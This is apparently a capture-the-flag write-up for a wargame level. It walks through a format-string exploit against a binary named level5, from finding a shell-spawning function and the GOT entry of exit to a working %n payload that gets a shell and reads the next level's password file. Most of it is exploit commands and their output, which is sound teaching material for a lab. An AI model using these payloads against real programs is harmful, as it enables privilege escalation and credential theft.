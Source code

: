 The main of this program uses the function 'n,' which in turn uses the 'printf' function.
Additionally, we can observe the existence of an unused function 'o' that includes a call to 'system("/bin/sh").

The problem is that the functions n and o doesn't return anything it just exits the program.
So we need to find a way to overwrite the GOT entry of exit with the address of the function o.

let's find the address of the function o:
info function o
Non-debugging symbols:
0x080483c0 **gmon_start**
0x080483c0 **gmon_start**@plt
0x08048420 **do_global_dtors_aux
0x080484a4 o
0x080485a0 **do_global_ctors_aux

So the address of the function o is 0x080484a4 (134513828 in decimal)

Now let's find the address of the GOT entry of exit:

objdump -R level5 # Because the got address is not in the plt section
OFFSET   TYPE              VALUE 
08049814 R_386_GLOB_DAT    __gmon_start__
08049848 R_386_COPY        stdin
08049824 R_386_JUMP_SLOT   printf
08049828 R_386_JUMP_SLOT   _exit
0804982c R_386_JUMP_SLOT   fgets
08049830 R_386_JUMP_SLOT   system
08049834 R_386_JUMP_SLOT   __gmon_start__
08049838 R_386_JUMP_SLOT   exit
0804983c R_386_JUMP_SLOT   __libc_start_main

the address of the GOT entry of exit is 0x08049838

let's find the address position of exit:
like the previous exercises
python -c 'print "aaaa " + "%x " * 10' | ./level5 
aaaa 200 b7fd1ac0 b7ff37d0 61616161 20782520 25207825 78252078 20782520 25207825 78252078 

the address of exit is at the 4th position (61616161)

python -c 'print "\x38\x98\x04\x08" + "%134513824d%4$n"' > /tmp/exploit
cat /tmp/exploit - | ./level5

this time:
/home/user/level6/.pass is necessary to get the password of level6
